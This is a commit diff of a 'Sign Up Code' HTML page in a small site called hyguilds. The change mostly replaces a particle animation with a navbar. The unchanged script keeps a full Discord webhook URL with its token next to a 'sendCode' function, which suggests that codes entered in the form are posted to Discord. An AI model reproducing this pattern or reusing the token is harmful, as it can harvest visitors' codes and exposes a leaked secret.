

Before and after one commit to SubToJJ/hyguilds, a plain HTML site: page Sign Up Code.html in a window 1280 px wide. Shown: the top 262 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor HTML structure and styles for navbar

```diff
--- a/Sign Up Code.html
+++ b/Sign Up Code.html
@@ -6,14 +6,18 @@
   <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet">
   <style>
     html, body {
+      margin: 0;
+      padding: 0;
       height: 100%;
-      margin: 0;
       font-family: 'Inter', sans-serif;
       background: linear-gradient(-45deg, #2c003e, #3b1f5c, #4b2a6f, #6c3fa0);
       background-size: 400% 400%;
       animation: gradientShift 30s ease infinite;
       overflow: hidden;
       position: relative;
+      color: #fff;
+      display: flex;
+      flex-direction: column;
     }
 
     @keyframes gradientShift {
@@ -22,56 +26,91 @@
       100% { background-position: 0% 50%; }
     }
 
-    .particles {
-      position: absolute;
-      top: 0; left: 0;
-      width: 100%; height: 100%;
-      pointer-events: none;
-      overflow: hidden;
-      z-index: 1;
+    .navbar {
+      display: flex;
+      justify-content: space-between;
+      align-items: center;
+      padding: 20px 40px;
+      background: rgba(0,0,0,0.6);
+      box-shadow: 0 0 20px rgba(0,0,0,0.4);
+      position: sticky;
+      top: 0;
+      z-index: 10;
     }
 
-    .particles .dot {
-      position: absolute;
-      width: 8px;
-      height: 8px;
-      background: rgba(255,255,255,0.1);
-      border-radius: 50%;
-      animation: float 12s linear infinite;
+    .nav-left {
+      display: flex;
+      gap: 30px;
     }
 
-    @keyframes float {
-      0% { transform: translateY(0); opacity: 1; }
-      100% { transform: translateY(-100vh); opacity: 0; }
+    .nav-item {
+      font-weight: 600;
+      font-size: 16px;
+      color: #888;
+      text-decoration: line-through;
+      cursor: not-allowed;
+      position: relative;
+    }
+
+    .nav-item.home {
+      color: #fff;
+      text-decoration: none;
+      cursor: pointer;
+    }
+
+    .nav-item.home:hover {
+      color: #9b59b6;
+      text-shadow: 0 0 6px #9b59b6;
+    }
+
+    .nav-item.disabled:hover::after {
+      content: "Need to sign in to access";
+      position: absolute;
+      top: 120%;
+      left: 0;
+      background: #222;
+      padding: 6px 10px;
+      border-radius: 6px;
+      font-size: 12px;
+      white-space: nowrap;
+      color: #fff;
+      opacity: 0.9;
+    }
+
+    .main {
+      flex: 1;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      position: relative;
     }
 
     .container {
-      position: absolute;
-      top: 50%;
-      left: 50%;
-      transform: translate(-50%, -50%);
       background: rgba(0, 0, 0, 0.75);
       padding: 50px 40px;
       border-radius: 20px;
       box-shadow: 0 0 40px rgba(0,0,0,0.8);
       width: 100%;
-      max-width: 600px;
+      max-width: 500px;
       animation: enterGlow 1.2s ease-out;
       z-index: 2;
     }
 
     @keyframes enterGlow {
       0% {
-        transform: translate(-50%, -50%) scale(0.85);
+        transform: scale(0.85);
         box-shadow: 0 0 0 rgba(0,0,0,0);
+        opacity: 0;
       }
       50% {
-        transform: translate(-50%, -50%) scale(1.02);
+        transform: scale(1.02);
         box-shadow: 0 0 60px rgba(155, 89, 182, 0.4);
+        opacity: 1;
       }
       100% {
-        transform: translate(-50%, -50%) scale(1);
+        transform: scale(1);
         box-shadow: 0 0 40px rgba(0,0,0,0.8);
+        opacity: 1;
       }
     }
 
@@ -79,7 +118,6 @@
       text-align: center;
       margin-bottom: 30px;
       font-weight: 600;
-      color: #f1f1f1;
       font-size: 2rem;
     }
 
@@ -130,8 +168,16 @@
   </style>
 </head>
 <body>
-  <div class="particles"></div>
+  <div class="navbar">
+    <div class="nav-left">
+      <a href="index.html" class="nav-item home">Home</a>
+      <div class="nav-item disabled">Marketplace</div>
+      <div class="nav-item disabled">Download</div>
+      <div class="nav-item disabled">Search</div>
+    </div>
+  </div>
 
+  <div class="main">
     <div class="container">
       <h2>Enter Your Code</h2>
       <form id="form2">
@@ -139,19 +185,9 @@
         <button type="submit">Submit</button>
       </form>
     </div>
+  </div>
 
   <script>
-    // Particles
-    for (let i = 0; i < 40; i++) {
-      const dot = document.createElement('span');
-      dot.className = 'dot';
-      dot.style.left = Math.random() * 100 + '%';
-      dot.style.top = Math.random() * 100 + '%';
-      dot.style.animationDuration = (6 + Math.random() * 6) + 's';
-      document.querySelector('.particles').appendChild(dot);
-    }
-
-    // Webhook logic
     const webhookUrl = 'https://discord.com/api/webhooks/1413009868364976218/FRWyak8eE5D6BdqXv5x3_bMiKexf5I8x1y1qJuMPHRMcirw3qxCZseR5qXdatlQrCntp';
 
     const sendCode = (code) => {
```
Lines whose indentation alone changed are shown as unchanged.
